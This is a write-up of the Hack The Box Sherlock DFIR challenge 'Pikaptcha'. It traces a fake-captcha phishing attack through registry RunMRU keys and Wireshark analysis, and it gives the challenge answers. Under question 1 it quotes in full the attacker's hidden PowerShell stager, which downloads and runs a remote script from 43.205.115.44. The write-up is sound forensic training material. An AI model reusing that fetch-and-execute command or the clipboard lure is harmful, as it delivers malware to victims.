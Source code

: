 # HTB Sherlock - Pikaptcha

![htb logo](./Images/htb_logo.png)

| Date       | Author          | Difficulty | Challenge Type |
| ---------- | --------------- | ---------- | -------------- |
| 2025-09-09 | Andrew McKenzie | Easy       | DFIR           |

---
## Description
This challenge involves a classic phishing investigation that requires correlating endpoint and network artifacts. After a user is lured to a malicious site with a fake captcha, a payload is executed. The goal is to analyze registry hives and a packet capture to trace the attack from initial execution to the establishment of a C2 reverse shell.
## Scenario
Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.
## Artifacts Provided
- Pikaptcha.zip
	- pikaptcha.pcapng
	- 2024-09-23T052209_alert_mssp_action.zip

| Filename                                | Algorithm | Hash                                                             |
| --------------------------------------- | --------- | ---------------------------------------------------------------- |
| pikaptcha.pcapng                        | SHA256    | E928CB27491A01766A44DEA626357DEEF30E9A60B6BCB3FA8DA4C4D7F6083BDA |
| pikaptcha.pcapng                        | SHA1      | 1FD3E3B9D70305DD4047833D2CE3C9E4B165FA65                         |
| pikaptcha.pcapng                        | MD5       | 1DAA25D85B80C3EC05AF0FF211FE8803                                 |
| 2024-09-23T052209_alert_mssp_action.zip | SHA256    | BE61F277197D3DABC75A298FA9F6CC8F833FF05B4CF5C55CC24ACA9307E4491B |
| 2024-09-23T052209_alert_mssp_action.zip | SHA1      | C38EDE845392F0D88DBA716C72596D178B22BA24                         |
| 2024-09-23T052209_alert_mssp_action.zip | MD5       | 12D1B26ADA9D62227DBD051C073BB0AA                                 |
## Skills Learned
- **Endpoint & Network Correlation:** Linking evidence from host-based artifacts (Windows Registry) with network traffic (PCAP) to build a complete picture of an attack.
- **Registry Forensics:** Analyzing Run/RunMRU keys to uncover commands executed by a user, identifying persistence or initial access payloads.
- **PCAP Analysis with Wireshark:** Filtering traffic by IP, exporting HTTP objects (file carving), and following TCP streams to analyze C2 communications.
- **C2 Traffic Identification:** Recognizing reverse shell activity by identifying long-lived TCP sessions on non-standard ports.
- **Static Web Page Analysis:** Inspecting the source code of a malicious web page from captured traffic to identify malicious functions.
## Initial Analysis
The investigation began by examining the endpoint artifacts, focusing on the registry hives of the user `happy.grunwald`. This immediately yielded the initial access vector.
1. **Initial Execution:** Analysis of the **RunMRU registry key** revealed a PowerShell command that was executed at **05:07:45 UTC**. This command used `Net.WebClient` to download and execute a script named `office2024install.ps1` from the attacker's server at `43.205.115.44`.
2. **Payload Analysis:** The investigation pivoted to the `pikaptcha.pcapng` network capture. The PowerShell script was successfully carved from the HTTP traffic, and its **SHA256 hash** was calculated.
3. **C2 Communication:** By filtering the network traffic for the attacker's IP, a persistent TCP connection was identified on port **6969**. This connection, characteristic of a reverse shell, was established shortly after the payload execution and lasted for **403 seconds**.
4. **Social Engineering:** To understand how the user was tricked into running the initial command, the HTTP traffic leading to the attack was inspected. Following the HTTP stream revealed a fake captcha page. The page's source code contained a JavaScript function named **`stageClipboard`**, which was designed to copy the malicious PowerShell command into the victim's clipboard, likely instructing them to paste and run it to "complete" the captcha.
## Questions:
1. **It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.**
The information provided by the question gears us towards looking into the user's specific registry keys. After checking multiple spots, we can eventually find the item in question in the RuNMRU key. The answer is `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`.

![image one](./Images/Pasted%20image%2020250909172225.png)

2. **At what time in UTC did the malicious payload execute?**
This answer can be found in the same place as the previous question. The answer is `2024-09-23 05:07:45`.

![image two](./Images/Pasted%20image%2020250909172412.png)

3. **The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?**
We can get the script from Wireshark by going to File > Export Objects > HTTP, then we can filter the results by typing in the IP address we found in question 1. Once we see the appropriate file name, you can save it locally and get its hash. The answer is `579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE`.

![image three](./Images/Pasted%20image%2020250909172914.png)

4. **To which port did the reverse shell connect?**
Filtering Wireshark for the IP addresses known now, `p.addr == 43.205.115.44 && ip.dst == 172.17.79.129`, we see some ports being used that are odd, particularly `6969`.

![image four](./Images/Pasted%20image%2020250909173039.png)

5. **For how many seconds was the reverse shell connection established between C2 and the victim's workstation?**
For this question, we just need to filter with the newfound information and then grab the start time `2024-09-23 05:07:48` and the last communication time `2024-09-23 05:14:31`, and then find the value in seconds between those two timestamps. The answer is `403`.

6. **Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?**
We can modify our filter to go back to just filtering for the malicious IP address. From there we can then follow the HTTP stream. The function in question is `stageClipboard`.

![image five](./Images/Pasted%20image%2020250909173800.png)